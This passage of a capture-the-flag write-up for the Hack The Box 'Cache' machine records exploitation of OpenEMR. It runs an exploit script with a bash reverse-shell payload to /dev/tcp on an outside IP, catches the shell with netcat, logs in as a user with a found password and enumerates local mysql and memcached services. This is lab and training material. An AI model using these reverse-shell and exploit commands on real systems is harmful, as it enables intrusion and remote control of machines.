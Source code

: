 ```shell
┌─[root@cyb3rhoL1c]─[~/Documents/htb/writeup/cache]
└──╼ #python 45161.py http://hms.htb -u openemr_admin -p xxxxxx -c '/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload

```

> Listening with `netcat`

```shell
┌─[root@cyb3rhoL1c]─[~]
└──╼ #nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.188] 36466
bash: cannot set terminal process group (1642): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ 

```

Login as `ash` with `H@v3_fun` password

```shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
su ash
Password: H@v3_fun

ash@cache:/var/www/hms.htb/public_html/interface/main$
```

# [](header-3) Dumping data From memcached

After some enumerating , i found `mysql` and `memcached` service are running locally

```
ash@cache:/var/www/hms.htb/public_html/interface/main$ ss -nlt
ss -nlt
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128               127.0.0.1:11211            0.0.0.0:*       
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:*       
ash@cache:/var/www/hms.htb/public_html/interface/main$ 
```
